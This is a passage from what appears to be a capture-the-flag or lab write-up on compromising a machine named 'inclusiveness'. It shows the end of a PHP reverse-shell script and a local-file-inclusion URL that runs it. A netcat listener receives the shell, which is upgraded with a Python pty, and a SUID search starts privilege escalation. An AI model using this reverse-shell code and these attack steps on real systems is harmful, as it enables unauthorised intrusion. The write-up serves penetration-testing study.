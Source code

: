 ```php
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
We can verify RCE by navigating to http://192.168.120.69/secret_information/?lang=/var/ftp/pub/rev.php
If we look back to our listener, our shell should have arrived:
```bash
kenobi@kenobi-attackbox:~$ sudo nc -lvp 1337
listening on [any] 1337 …
192.168.249.14: inverse host lookup failed: Unknown host
connect to [192.168.49.249] from (UNKNOWN) [192.168.249.14] 52006
/bin/sh: 0: can’t access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@inclusiveness:/var/www/html/secret_information$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

------------
## Privilege Escalation
------------
### SUID
identify all programs or files that have SUID bits enabled:
```bash
www-data@inclusiveness:/var/www/html/secret_information$ find / -perm -u=s -type f 2>/dev/null
<_information$ find / -perm -u=s -type f 2>/dev/null     
...
/usr/sbin/pppd
/home/tom/rootshell
```

